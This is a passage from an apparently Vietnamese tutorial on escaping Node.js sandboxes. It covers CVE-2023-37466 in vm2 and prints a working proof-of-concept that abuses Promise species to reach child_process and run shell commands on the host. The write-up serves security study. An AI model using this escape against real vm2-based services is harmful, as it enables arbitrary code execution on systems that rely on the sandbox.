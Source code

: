
Giải thích đơn giản

Tóm lại, muốn escape sandbox thì chúng ta cần access được bất kỳ thứ gì không thuộc sandbox, như 2 ví dụ trên là `Function` và `arguments.callee.caller` và từ đó ta có thể làm bất cứ điều gì.

- Ngoài `vm` ra thì còn một module khác là `vm2` được coi là "bản nâng cấp" của `vm`. `vm2` là một sandbox hổ trợ chạy các unstrusted code với các built-in module của Nodejs. `vm2` dùng Proxy để ngăn chặn thoát khỏi sandbox. Tuy nhiên tương tự như `vm` thì `vm2` cũng có thể bị thoát khỏi sandbox nhưng cách thức thoát khỏi nó phức tạp hơn nên ta sẽ đi vào phân tích các CVE gần đây

### CVE-2023-37466

In vm2 for versions up to 3.9.19, Promise handler sanitization can be bypassed with @@species accessor property allowing attackers to escape the sandbox and run arbitrary code.

POC
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

**Phân tích**

Một trạng thái bất thường của máy chính trong ngữ cảnh bất đồng bộ (Promise) sẽ có thể leak object của máy chính ra ngoài, như ở trên ta có thể dựa vào đây để thoát khỏi sandbox và RCE

Ban đầu khi mới vào thì `Promise.prototype.then` đã bị viết đè bằng cách dùng Proxy để khử các tham số mà người dùng cung cấp cho function `onRejected`
